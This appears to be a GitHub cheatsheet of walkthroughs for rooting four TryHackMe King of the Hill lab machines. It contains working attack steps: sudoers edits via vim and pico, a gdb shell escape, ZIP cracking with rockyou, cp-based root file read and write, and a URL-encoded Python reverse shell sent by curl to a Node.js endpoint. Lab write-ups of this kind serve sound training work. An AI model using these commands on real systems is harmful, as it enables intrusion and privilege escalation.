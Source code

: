 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
[Mr.Holmes](https://github.com/holmes-py)
[Cryptonic007](https://github.com/mohitkhemchandani)
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.*

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 
    `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, <br /> 
And made it hard for me to post direct commands, Why?<br /> 
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.<br /> 
Let's Hack:<br /> 


1. Initial nmap scans revealed that theres a netcat port open at 3333. <br /> 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)

2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).<br /> 
    Copy the base64 hash to this site, and it will generate a file named application.zip.<br /> 
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.<br /> 
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`<br /> 
   Once you have the password, unzip it.<br /> 
   `unzip application.zip`<br /> 
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.<br /> 
4. Using the creds, <br /> 
    `ssh fortuna@<BOX IP>`<br /> 
5. Now that we have the shell, We can work on Privilage escalation.<br /> 
    After linpeas and basic test, I found that:<br /> 
        5.1 We as fortuna are in sudoers list.<br /> 
        5.2 And we also have `pico` in the `sudo -l` list.<br /> 
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 

#### You are ROOT, now defend your title.
   
   
